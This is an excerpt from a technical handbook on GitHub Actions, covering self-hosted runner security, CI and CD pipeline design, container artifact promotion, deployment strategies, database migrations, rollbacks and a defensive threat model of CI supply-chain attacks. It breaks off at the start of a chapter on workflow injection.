A **runner application** installed on a machine you control connects *outbound* over HTTPS to GitHub, long-polls for jobs matching its labels, runs them, and reports back. No inbound ports are needed.



**Concepts.**

| Concept | Meaning |
|---|---|
| **Labels** | Tags such as `self-hosted`, `linux`, `x64`, `gpu`. `runs-on: [self-hosted, linux, x64]` matches runners having *all* those labels |
| **Runner groups** | Org/enterprise-level sets of runners with access policies (which repos may use them). Use groups for security boundaries |
| **Levels** | Repository, organization, enterprise |
| **Ephemeral runners** | Take exactly one job then deregister. Best security posture |
| **JIT (just-in-time) runners** | Registered via API for one job with a one-time config (`./run.sh --jitconfig ...`) |
| **Runner scale sets / ARC** | Actions Runner Controller: a Kubernetes operator that autoscales ephemeral runner pods through *runner scale sets* (Helm charts `gha-runner-scale-set-controller` and `gha-runner-scale-set`); jobs target the scale set name in `runs-on` |

**When self-hosted makes sense**

| Reason | Comment |
|---|---|
| Access to private networks (databases, clusters, on-prem) | But consider OIDC-based private networking for larger runners first |
| Special hardware (GPU, ARM, big memory) | Larger runners cover many cases |
| Very high volume where own capacity is cheaper | Include engineering cost |
| Compliance requiring data locality | |
| Custom images with heavy toolchains | Larger-runner custom images also solve this |

**When not:** small teams; public repositories; when GitHub-hosted plus OIDC is enough. Self-hosted runners transfer patching, scaling, security and cleanup to you.

### 26.3 Self-hosted runner security (official warnings)

- Self-hosted runners **should almost never be used for public repositories.** Any user can open a PR that executes on your machine.
- On private repos, anyone who can fork or open PRs can run code on the runner and reach secrets and the token.
- **Non-ephemeral runners persist** files, credentials, caches and processes between jobs, and secrets passed as command-line arguments can be visible to other jobs on the same machine (`ps`).
- Even auto-destroy-after-job is not a guarantee that a runner only ran one job. Use true ephemeral/JIT registration.
- Keep the machine's sensitive contents minimal: no long-lived cloud keys, SSH keys or instance-metadata access for job code (block IMDS or require IMDSv2 hop limits).
- **Use runner groups** with repository allowlists; separate groups for production deploy runners.
- Network: default-deny egress with an allowlist; place runners in dedicated subnets.
- Patch runners and images; the runner app auto-updates but your OS and toolchain do not.



ARC container modes: **Kubernetes mode** (job steps run as separate pods/containers using the runner's container hooks) or **Docker-in-Docker mode**. DinD requires privileged containers (a security cost); rootless/BuildKit-remote builders or Kaniko-style builds can avoid it.

### 26.4 Operating self-hosted runners

**Cleanup:** ephemeral is the cure. If persistent: clean `_work`, Docker images/volumes and `/tmp` after each job (runner hooks `ACTIONS_RUNNER_HOOK_JOB_COMPLETED`), monitor disk.

**Autoscaling:** ARC (Kubernetes), or cloud autoscaling groups reacting to queue depth using the `workflow_job` webhook, or third-party runner-management projects.

**Troubleshooting**

| Symptom | Checks |
|---|---|
| Job stuck "Queued", "Waiting for a runner" | No online runner has *all* labels in `runs-on`; runner group does not include this repo; all runners busy; runner offline |
| Runner shows Offline | Service stopped; network/proxy/DNS to `github.com` and `*.actions.githubusercontent.com`; expired registration; runner version too old |
| Job fails during setup | Disk full; Docker not running; missing tools (git, curl); permissions on `_work` |
| Random failures across jobs | Leftover state on a non-ephemeral runner; port conflicts; out of memory |
| Logs | On the runner host: the `_diag` folder (`Runner_*.log`, `Worker_*.log`); the service journal (`journalctl -u actions.runner.*`); enable step debug logging (Chapter 41) |

---

# Part 7: CI and CD Engineering

## Chapter 27. CI Architecture

### 27.1 Goals and shape

A production CI pipeline maximizes **fast, trustworthy feedback** while staying cheap and secure.



| Principle | Practice |
|---|---|
| **Fast feedback** | Cheap checks (format, lint, unit) start immediately in parallel; a red result within 2-5 minutes |
| **Parallelize** | Independent jobs run concurrently; heavy tests sharded |
| **Dependency ordering** | Use `needs` only where a real dependency exists |
| **Fail-fast vs full information** | Job-level: let independent jobs finish so developers see all problems at once. Matrix: `fail-fast: false` |
| **Caching** | Built-in caches for dependencies; Docker layer cache |
| **Artifacts** | Upload reports on failure; keep retention short |
| **Test reports** | JUnit XML + summary in `$GITHUB_STEP_SUMMARY` |
| **Required checks** | One stable **gate** job (below) |
| **Determinism** | Pinned runner image, toolchain, actions; no `latest` |
| **Cost** | Cancel superseded PR runs; path-aware execution |

### 27.2 The gate job pattern (stable required checks)

Branch protection matches required checks **by name**. Job names change (matrices, renames), and skipped workflows leave checks pending. Make **one job** the only required check. It runs always and fails if any upstream job failed or was cancelled.

```yaml
  ci-gate:
    name: CI gate
    if: ${{ always() }}
    needs: [format, lint, unit, integration, build, security]
    runs-on: ubuntu-24.04
    permissions: {}
    steps:
      - name: Fail if any required job did not succeed
        env:
          NEEDS_JSON: ${{ toJSON(needs) }}
        run: |
          echo "$NEEDS_JSON" | jq -r 'to_entries[] | "\(.key): \(.value.result)"'
          echo "$NEEDS_JSON" | jq -e 'all(.[]; .result == "success" or .result == "skipped")' > /dev/null
```

`skipped` is accepted because path-aware jobs may legitimately skip. Anything `failure` or `cancelled` fails the gate. Set *only* "CI gate" as the required status check in the ruleset.

### 27.3 What "CI" should and should not do

CI should validate PR code with **no secrets**. CI should not deploy, and should not depend on a cloud environment you cannot recreate. If integration tests need real cloud resources, run them after merge in dev (Category O) rather than on fork-capable PR triggers.

---

## Chapter 28. Backend CI

### 28.1 The same pipeline in four stacks

**Java (Maven, Spring Boot)**

```yaml
- uses: actions/setup-java@v6
  with: { distribution: temurin, java-version: '21', cache: maven }
- run: mvn -B -ntp spotless:check      # formatting
- run: mvn -B -ntp verify               # compile, unit + integration tests, JaCoCo (bind in pom)
```

Coverage: bind the JaCoCo plugin in the POM to `verify`, publish `target/site/jacoco/`. Static analysis: SpotBugs (`spotbugs:check`), PMD, Checkstyle, or Sonar. Gradle: use `gradle/actions/setup-gradle` and `./gradlew check`.

**Node.js**

```yaml
- uses: actions/setup-node@v7
  with: { node-version: '22', cache: npm }
- run: npm ci
- run: npm run lint && npx tsc --noEmit
- run: npm test -- --coverage
```

**Python**

```yaml
- uses: actions/setup-python@v7
  with: { python-version: '3.12', cache: pip }
- run: pip install -r requirements.txt -r requirements-dev.txt
- run: ruff check . && ruff format --check . && mypy src
- run: pytest --cov=src --cov-report=xml --junitxml=reports/junit.xml
```

**Go**

```yaml
- uses: actions/setup-go@v7
  with: { go-version-file: go.mod }
- run: test -z "$(gofmt -l .)" && go vet ./...
- run: go test -race -covermode=atomic -coverprofile=coverage.out ./...
```

Everything else (permissions, concurrency, timeout, gate job, reports) is identical. Learn the *shape*; the language commands are details.

### 28.2 Mapping backend concerns onto Actions

| Concern | GitHub Actions mechanism |
|---|---|
| Runtime and dependency setup | `setup-*` actions with caching |
| PostgreSQL / MySQL / Redis | `services:` (Chapter 17) or Testcontainers |
| Message queues (Kafka, RabbitMQ) | Service containers or Docker Compose (`docker compose up -d --wait`) |
| Database migrations in tests | Run Flyway/Liquibase against the service DB (Spring runs Flyway on startup); also test *migrating from the previous release's schema* |
| Environment configuration | Environment variables from a workflow `env` (non-secret test values) and `vars` |
| API testing | Start the app (background step or container) then run HTTP tests (REST Assured, Postman/Newman, k6 smoke) |
| Contract testing | Consumer tests publish contracts (Pact broker, Spring Cloud Contract stubs); provider verification runs in CI; use `can-i-deploy` before promoting |
| Docker | `docker/build-push-action`; verify the image starts and passes a health check in CI |
| Reports | JUnit XML artifacts; summary in `$GITHUB_STEP_SUMMARY` |

### 28.3 Integration testing guidance

- **Test against the real database engine and version you run in production** (not H2).
- **Migrations are code under test.** Apply all migrations from scratch *and* from the previous released schema plus new migrations.
- **Isolate.** Each suite owns its data (schema per test class, transaction rollback, or a fresh container).
- **Determinism.** Fix clocks, seeds, ports. No sleeps: poll with timeouts.
- **Parallel-safe.** Avoid fixed ports; use random ports (`@SpringBootTest(webEnvironment = RANDOM_PORT)`).
- **Keep e2e out of PR CI** unless small; run them post-deploy.

### 28.4 Contract testing in the pipeline

```text
Consumer PR:   run consumer tests → publish pact to broker (tagged with branch/commit)
Provider PR:   verify pacts from broker → publish verification result
Before deploy: can-i-deploy --pacticipant orders --version $SHA --to-environment staging
After deploy:  record-deployment
```

Pact and Spring Cloud Contract are external tools. GitHub Actions just runs the commands and reports the result as a check. Contract tests catch cross-team API breakage earlier than e2e tests.

---

## Chapter 29. Artifact Management and Container CI/CD

### 29.1 The core principle: build once, deploy the same artifact



**Why:** if you rebuild per environment, what you tested in staging is *not* what you ship. Different dependency resolution, timestamps, or base-image drift can change behavior. **Promotion** moves the *same digest* through environments. Environment differences belong in **configuration** (Helm values, env vars, secrets), never in the artifact.

| | Rebuild per environment | Promote one artifact |
|---|---|---|
| Confidence | Low: tested ≠ deployed | High |
| Speed | Slow | Fast |
| Auditability | Poor | Strong: digest is the identity |
| Rollback | Rebuild old version | Redeploy old digest |

### 29.2 Image tagging and identity

| Reference | Mutable? | Use |
|---|---|---|
| `orders:latest` | **Yes** | Never for deploys. Moves silently; different nodes may pull different content; rollbacks are ambiguous |
| `orders:main` | Yes | Convenience only |
| `orders:sha-3d3c42e` | Practically immutable (do enforce immutability in the registry) | Traceability to commit |
| `orders:1.4.2` | Immutable *if the registry enforces it* | Human-friendly release version |
| `orders@sha256:abc...` | **No, content-addressed** | **Deploy by this** |

Enable **tag immutability** in ECR/Artifact Registry/ACR for release tags. Record digest in job outputs and in deployment metadata.

### 29.3 The container pipeline



Key building blocks (all shown fully in Chapter 44, Examples 3, 4 and 25):

- **Dockerfile:** multi-stage, pinned base image, non-root user, layered Spring Boot jar, `HEALTHCHECK` or K8s probes.
- **BuildKit/Buildx:** `docker/setup-buildx-action` creates a builder enabling caching, multi-platform, attestations.
- **Metadata:** `docker/metadata-action` computes tags and OCI labels (source, revision).
- **Cache:** `cache-from: type=gha` / `cache-to: type=gha,mode=max`, or a registry cache.
- **Multi-platform:** `platforms: linux/amd64,linux/arm64` with QEMU (slow) or native ARM runners (`ubuntu-24.04-arm`) in a matrix then a manifest merge.
- **Registry auth:** GHCR with `GITHUB_TOKEN` (`packages: write`); ECR via OIDC + `amazon-ecr-login`; Artifact Registry via Workload Identity; ACR via `azure/login`; Docker Hub with a token secret (rate limits, use sparingly).
- **Vulnerability scanning:** Trivy/Grype/Docker Scout; block on new critical/high with fixes available; scheduled re-scans of deployed digests.
- **SBOM:** `provenance`/`sbom` options in build-push (BuildKit attestations) or Syft.
- **Signing and provenance:** GitHub **artifact attestations** (`actions/attest-build-provenance`, keyless via OIDC and Sigstore) or Cosign; verify at deploy with `gh attestation verify` or an admission controller (policy-controller/Kyverno) so the cluster only runs images your pipeline built.

**Provenance in practice (official).** `actions/attest-build-provenance` needs `id-token: write` and `attestations: write` (plus `packages: write` to push the attestation to the registry). It creates a signed statement: this digest was built by *this workflow, in this repository, at this commit*. Attestations for private repositories require GitHub Enterprise Cloud; public repositories work on all plans.

### 29.4 The four storage layers, in a deployment context

| Layer | Example | Lifetime | Role in the pipeline |
|---|---|---|---|
| GitHub Actions artifact | `surefire-reports`, `sbom.json` | Days | Evidence for this run |
| Container registry | ECR `orders@sha256:...` | Long | **The deployable artifact** |
| Package registry | GitHub Packages, Maven Central, Nexus | Long | Libraries consumed by other services |
| External artifact repository | Artifactory | Long | Central governance, promotion (`snapshot`→`release` repos), retention |

**Promotion patterns.** (a) *Same repository, more tags/attestations*: add `staging-approved` metadata via attestation or a promotion record. (b) *Repository-to-repository*: copy the image by digest from `orders-dev` to `orders-prod` registries (`crane copy`, `skopeo copy`, `docker buildx imagetools create`) after approval; digest is preserved. (c) *Do not rebuild.*

**Never** treat Actions artifacts as your permanent repository: they expire and vanish with the run.

### 29.5 Publishing libraries (Java example)

Publish libraries to a package registry from a **release workflow on tag push** with `packages: write` (GitHub Packages) or credentials from a secret/OIDC (Maven Central via a staged flow). Use versions from tags, never `-SNAPSHOT` for releases. See Example 5.

---

## Chapter 30. CD Architecture and Environment Promotion

### 30.1 The reference flow



### 30.2 Continuous delivery vs deployment, and promotion styles

| Style | How | Use when |
|---|---|---|
| **Continuous deployment** | Every green main commit goes to production automatically | Strong tests, feature flags, fast rollback, mature observability |
| **Continuous delivery + manual promotion** | Auto to dev/staging; production waits for an approver or a `workflow_dispatch` | Regulated environments, riskier systems, most teams starting out |
| **Automatic promotion with gates** | Promotion happens when automated gates (tests, SLO checks, wait timer) pass | Maturing teams |
| **Release-train / tag-based** | Deploy production from `v*` tags only | Versioned releases, compliance, multiple supported versions |

### 30.3 Rebuild versus promote (again, decisively)

**Promote.** The only reason to rebuild is when the artifact legitimately differs per environment (for example a mobile build with baked-in endpoints). For backends, don't.

### 30.4 What GitHub gives you and what it does not

| GitHub Actions provides | External systems provide |
|---|---|
| Triggering, ordering, approvals (environments), secrets/OIDC, audit trail, deployment records | Rolling/blue-green/canary mechanics (Kubernetes, ECS, ALB weights, service mesh, Argo Rollouts, Flagger), traffic shifting, automated metric analysis, artifact storage |

### 30.5 GitOps alternative

Instead of the pipeline running `helm upgrade`, the pipeline **commits the new image digest to a config repository** (or opens a PR); **Argo CD or Flux** inside the cluster reconciles the cluster to match. Benefits: pull-based (the cluster credentials never leave the cluster), continuous drift correction, full audit in Git. Costs: another system, and feedback about *whether the rollout succeeded* must be polled back into the workflow (for example `argocd app wait`). Choose push-based `helm upgrade` for simplicity; choose GitOps when you have many clusters or strict security boundaries.

### 30.6 Deployment locks and protection

- **Environment protection** (reviewers, branches/tags, wait timer).
- **Concurrency group** per environment (Chapter 19).
- **Change freeze:** a repository variable `DEPLOY_FREEZE=true` checked by the deploy job (`if: vars.DEPLOY_FREEZE != 'true'`), or a custom deployment protection rule from a GitHub App.
- **Deploy only known digests:** verify the digest exists, was built from `main`, passed scan, and has provenance before deploying.

---

## Chapter 31. Deployment Strategies

### 31.1 The strategies

| Strategy | Mechanism | Pros | Cons | Who implements it |
|---|---|---|---|---|
| **Recreate** | Stop old, start new | Simple; no version overlap | Downtime | Platform (K8s `strategy: Recreate`) |
| **Rolling** | Replace instances gradually | No extra capacity; standard | Old and new run together (needs backward compatibility); slow rollback | Platform (K8s Deployment, ECS) |
| **Blue-green** | Two full environments; switch traffic | Instant cutover and rollback | Double capacity; DB compatibility | Platform / load balancer / DNS |
| **Canary** | Send a small % of traffic to new version, watch metrics, expand | Limits blast radius; real-traffic validation | Needs traffic routing and automated analysis | Platform (mesh, Argo Rollouts, Flagger, ALB weighted target groups) |
| **Feature flags** | Deploy code dark; enable by flag | Decouples deploy from release; instant off-switch | Flag debt; needs a flag system | App + flag service |
| **Progressive delivery** | Automated canary/flags with SLO-based promotion/rollback | Safest at scale | Most tooling | Platform |

### 31.2 What GitHub Actions controls

```mermaid
flowchart LR
    subgraph GHA["GitHub Actions controls"]
        T["When to deploy"]
        A["Who may deploy (approvals)"]
        C["Which artifact (digest)"]
        CMD["Which command runs (helm, aws, kubectl)"]
        V["Post-deploy verification and rollback trigger"]
    end
    subgraph PLAT["The platform controls"]
        R["How instances are replaced"]
        TR["Traffic shifting and analysis"]
        HP["Health probes and readiness gates"]
    end
    GHA --> PLAT
```

Actions issues the command and waits for a result. It does *not* implement rolling updates, traffic splitting or automated metric analysis. Do not try to script canary analysis in YAML; use a platform tool and let the workflow wait for its verdict.

### 31.3 Examples

**Kubernetes rolling (Helm):**

```bash
helm upgrade --install orders ./helm/orders-service \
  --namespace orders --create-namespace \
  --set image.repository="$REPO" --set image.digest="$DIGEST" \
  --atomic --wait --timeout 10m          # Helm 3; Helm 4 names it --rollback-on-failure
kubectl -n orders rollout status deploy/orders-service --timeout=300s
```

Readiness probes and `maxUnavailable: 0`, `maxSurge: 25%` make rolling updates safe.

**AWS ECS rolling with circuit breaker:** register a new task definition revision with the new image digest, `aws ecs update-service --force-new-deployment`, and `aws ecs wait services-stable`. Enable the ECS *deployment circuit breaker with rollback*.

**AWS blue-green:** CodeDeploy for ECS/Lambda, or ALB with two target groups and weighted listener rules changed by workflow steps (`aws elbv2 modify-listener`), shifting 10% → 50% → 100% with checks between.

**Generic VM:** copy the artifact (`scp`/`rsync`, or pull a container/JAR from the registry using SSM Run Command instead of opening SSH), symlink switch (`current -> releases/<sha>`), `systemctl restart`, health check, keep the previous release directory for rollback.

**Docker-based (single host or Compose):** `docker compose pull && docker compose up -d --wait`, pinned by digest in the compose file (`image: repo@sha256:...`).

**Canary with Argo Rollouts (sketch):** the workflow updates the Rollout's image (or commits to Git for Argo CD). Argo Rollouts shifts traffic in steps and queries Prometheus; the workflow runs `kubectl argo rollouts status --timeout` and fails if the rollout is aborted.

### 31.4 Choosing

Start with **rolling + readiness probes + automatic rollback** (the atomic option or ECS circuit breaker). Add **feature flags** for risky behavior changes. Add **canary/progressive delivery** when the cost of a bad deploy justifies the tooling. Whatever you choose, all strategies except recreate demand **backward-compatible database changes** (Chapter 32).

---

## Chapter 32. Database Migrations

### 32.1 Why migrations are the dangerous part

Application rollbacks are cheap: redeploy the previous digest. Database changes mutate persistent state; some cannot be undone (dropping a column loses data). Rolling deployments run **old and new application versions at the same time against the same schema**.

### 32.2 When migrations run

| Option | Pros | Cons |
|---|---|---|
| **At application startup** (Flyway/Liquibase in Spring Boot) | Simple; nothing extra in the pipeline | With many replicas they race (locking handles it but slows startup); a bad migration crash-loops the rollout; app needs DDL privileges at runtime |
| **Separate pipeline step before deploy** (recommended) | Explicit, observable, approvable; app uses a low-privilege DB user; failure stops the deploy before new code runs | Needs network access to the DB and a migration credential |
| **Helm pre-upgrade hook / Kubernetes Job** | Runs inside the cluster next to the DB; no inbound access needed | Slightly more Kubernetes plumbing |

### 32.3 Expand and contract (the essential pattern)

To change a schema without downtime and keep rollback possible:

```mermaid
flowchart LR
    E["1. Expand<br/>add new column/table (nullable), keep old"] --> D1["2. Deploy app that writes both, reads old or new"]
    D1 --> BF["3. Backfill data (batched, throttled)"]
    BF --> D2["4. Deploy app that reads/writes new only"]
    D2 --> C["5. Contract<br/>drop old column in a LATER release"]
```

Rules: every migration must be **compatible with the previous application version** (old code keeps working after the migration) and the *next* version; never rename or drop in one step; add columns nullable or with defaults; create indexes concurrently (`CREATE INDEX CONCURRENTLY` in PostgreSQL); avoid long locks; batch backfills; put destructive changes in a separate later release.

### 32.4 Migration workflow requirements

1. **Ordering:** migrate *before* deploying the new app version (expand phase) and drop only after all instances run the new code (contract phase).
2. **Serialize:** one migration at a time per database (concurrency group, no cancel).
3. **Approval:** production migrations sit behind environment reviewers.
4. **Backups:** take a snapshot or verify point-in-time recovery *before* a risky production migration (`aws rds create-db-snapshot`).
5. **Locking and timeouts:** set `lock_timeout` and `statement_timeout` so a migration fails fast instead of blocking production traffic.
6. **Failure handling:** a failed migration stops the pipeline, alerts, and does *not* auto-retry. Flyway marks failed migrations; on PostgreSQL DDL is transactional so most failures roll back cleanly, on MySQL DDL is not transactional so partial application is possible.
7. **Dry run:** run migrations against a copy of production data or the staging database first.
8. **Rollback:** see Chapter 33. Prefer *roll forward* with a fix.

Full workflow: Example 22.

---

## Chapter 33. Rollbacks

### 33.1 Kinds of rollback

| Kind | What it means | Difficulty |
|---|---|---|
| **Application rollback** | Redeploy previous known-good version | Easy |
| **Container rollback** | Deploy the previous *digest* (`helm rollback`, `kubectl rollout undo`, ECS previous task definition) | Easy if old digests are retained |
| **Artifact rollback** | Repoint a "current" release pointer or tag to an older artifact | Easy; do not delete old artifacts |
| **Infrastructure rollback** | Re-apply the previous Terraform code version | Medium: may not be reversible (data-bearing resources); usually roll forward |
| **Database rollback** | Reverse a schema/data change | **Hard**; often impossible |

### 33.2 Why database rollback differs

An app version is stateless code; swapping it changes nothing persistent. A migration alters data: dropped columns are gone; backfills overwrote values; new-version writes may already exist in new shapes. "Down" migrations are rarely tested and often unsafe. The answer is design, not tooling: expand-and-contract migrations keep the *old app compatible with the new schema*, so an **application rollback needs no database rollback**. If data is corrupted, restore from a backup/point-in-time recovery, which is an incident procedure, not a pipeline button.

### 33.3 Rollback triggers

```mermaid
flowchart TD
    D["Deploy new digest"] --> H{"Readiness / rollout status OK?"}
    H -->|"no"| A1["Automatic rollback: helm --atomic or ECS circuit breaker"]
    H -->|"yes"| S{"Smoke tests pass?"}
    S -->|"no"| A2["Workflow step: rollback to previous digest"]
    S -->|"yes"| M{"Metrics/SLO healthy after N minutes?"}
    M -->|"no"| A3["Alert and manual rollback workflow"]
    M -->|"yes"| OK["Done"]
```

**Design rules**

- **Know the previous good version before deploying.** Capture it (`helm history`, the running digest from the cluster or a deployment record) as a step output.
- **Keep old artifacts** (registry retention must not delete digests still referenced by any environment or recent history).
- **Provide a manual rollback workflow** (`workflow_dispatch`, inputs: environment + digest) that reuses the *same deploy core* and the same approvals. Do not invent a second, less-tested deployment path.
- **Rollbacks are deployments:** they use the same environment protection (sometimes with a faster approval path), concurrency lock and notifications.
- **Announce it:** notify the channel when rollback triggers.
- **Rehearse.** Run a rollback in staging regularly.

Examples: Examples 8 and 23.

---

# Part 8: Security

Security is a first-class engineering concern for GitHub Actions. A workflow is a program that runs with your credentials, triggered by events that outsiders can influence, using code (actions) you did not write.

## Chapter 34. The GitHub Actions Threat Model

### 34.1 Assets, attackers and boundaries

| Asset | Why attackers want it |
|---|---|
| Secrets and OIDC-derived cloud credentials | Lateral movement, data theft, cloud takeover |
| `GITHUB_TOKEN` with write scopes | Push code, alter releases, poison artifacts and caches |
| The build itself | Insert a backdoor into what you ship (supply chain) |
| Runners (especially self-hosted) | Foothold in your network |
| Cache and artifacts | Persistence and cross-workflow poisoning |

| Attacker | Capability |
|---|---|
| External contributor / fork PR author | Controls PR code, title, body, branch name, commit messages, comments |
| Malicious or compromised **third-party action** | Runs inside your job with its secrets and token |
| Compromised dependency (npm, Maven) | Runs during your build |
| Insider or compromised maintainer account | Can edit workflows, add secrets exfiltration |
| Compromised runner or image | Reads job data |

```mermaid
flowchart TB
    subgraph UNTRUSTED["Untrusted zone"]
        FORK["Fork PR code and text"]
        DEP["Third-party dependencies"]
    end
    subgraph SEMI["Semi-trusted zone"]
        ACT["Third-party actions (pinned, reviewed)"]
    end
    subgraph TRUSTED["Trusted zone"]
        MAIN["Protected branches and tags, reviewed workflows"]
    end
    subgraph CRITICAL["Critical zone"]
        SECR["Environment secrets and OIDC roles"]
        PROD["Production"]
    end
    FORK -->|"pull_request: no secrets, read-only token"| SEMI
    DEP --> SEMI
    SEMI --> TRUSTED
    TRUSTED -->|"environment approval and branch policy"| CRITICAL
```

### 34.2 Real incidents worth knowing

- **tj-actions/changed-files (March 2025).** A popular action's tags were repointed to malicious code that printed CI secrets into workflow logs; reported to affect thousands of repositories. Lesson: **tags are mutable; pin to SHAs**, and avoid printing/dumping environment.
- **Trivy scanner action compromise (March 2026).** As widely reported by security vendors, attackers obtained credentials and force-pushed most version tags of the `aquasecurity/trivy-action` repository (and related setup action) to malicious commits that harvested secrets from CI runners; SHA-pinned workflows were unaffected. The root cause traced back to an earlier incident that began with a **`pull_request_target` "pwn request"**. Lessons: a *security scanner* is also a third-party action; pin everything, including transitive `uses:` in composite actions you rely on; rotate credentials completely after an incident.
- **"Pwn requests" and workflow injection** in many popular repositories, exploited through issue titles, branch names, and `pull_request_target` checkouts.

These are described from public reporting; check current advisories (GitHub Advisory Database, "actions" ecosystem) for details and for your exposure.

### 34.3 Defense in depth: the layers

1. **Minimize what triggers run** (event choice; workflow execution protections).
2. **Minimize what code can do** (permissions, no secrets in untrusted workflows).
3. **Minimize what third parties can do** (pinning, allowlists, egress control).
4. **Minimize what credentials are worth** (OIDC, short-lived, environment-scoped, least-privilege IAM).
5. **Detect** (CodeQL for Actions, OpenSSF Scorecard, `zizmor`/`actionlint`, audit logs).
6. **Contain** (ephemeral runners, separate build and deploy jobs, network policy).
7. **Respond** (incident checklist, Chapter 55).

**Design goal: one compromised action must not be able to compromise production.** Achieve it by: the build job (which runs many third-party actions and dependency code) has **no cloud credentials and only `contents: read`**; the deploy job (which has OIDC) runs *few, pinned, reviewed* steps and only from a protected environment; the artifact crosses the boundary by **digest**, and the deploy job *verifies provenance* before deploying.

```mermaid
flowchart LR
    subgraph BUILD["Build job: many actions, NO cloud credentials, contents: read"]
        B1["checkout, setup, mvn, buildx"]
    end
    subgraph PUBLISH["Publish job: packages/registry write only"]
        P1["push image, attest provenance"]
    end
    subgraph DEPLOY["Deploy job: OIDC role, protected environment, few pinned steps"]
        D1["verify attestation, helm upgrade by digest"]
    end
    BUILD -->|"artifact"| PUBLISH -->|"digest"| DEPLOY
```

---

## Chapter 35. Workflow Injection

### 35.1 Why it happens

`${{ expression }}` in a `run:` script is replaced *textually before the shell parses the script*. If the expression yields attacker-controlled text, the attacker writes shell.

